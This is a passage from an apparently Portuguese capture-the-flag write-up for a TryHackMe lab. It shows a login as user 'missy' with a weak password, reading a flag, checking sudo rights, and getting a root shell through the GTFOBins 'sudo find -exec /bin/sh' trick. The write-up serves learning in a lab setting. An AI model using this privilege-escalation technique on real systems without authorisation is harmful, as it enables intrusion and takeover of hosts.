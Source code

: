 Conseguimos logar no usuário `missy` com a senha `Password1` e olhando as pastas desse usuário conseguimos achar a primeira flag em `/home/missy/Documents`:

```bash
[missy@ip-10-10-45-203 Documents]$ cat flag1.txt 
THM-42828719920544
```

Agora que já temos a primeira flag, vamos tentar executar o comando `sudo -l` para ver se conseguimos executar algum comando com privilégios de root.

```bash
[missy@ip-10-10-45-203 /]$ sudo -l
Matching Defaults entries for missy on ip-10-10-45-203:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-45-203:
    (ALL) NOPASSWD: /usr/bin/find
```

O comando `sudo -l` nos mostra que o usuário `missy` pode executar o comando `/usr/bin/find` sem precisar de senha. Pesquisando no [GTFOBins](https://gtfobins.github.io/) sobre o comando `find` conseguimos achar uma forma uma shell atraves do comando `find` com privilégios de root.

![find](find.png)

## **<a id="3"> • Escalação de Privilégio Vertical.</a>**

Então vamos utilizar o comando `sudo find . -exec /bin/sh \; -quit` para obter uma shell com privilégios de root.

```bash
[missy@ip-10-10-45-203 Documents]$ sudo find . -exec /bin/sh \; -quit
sh-4.2# whoami
root
```

Agora que temos uma shell com privilégios de root, vamos procurar a segunda flag.
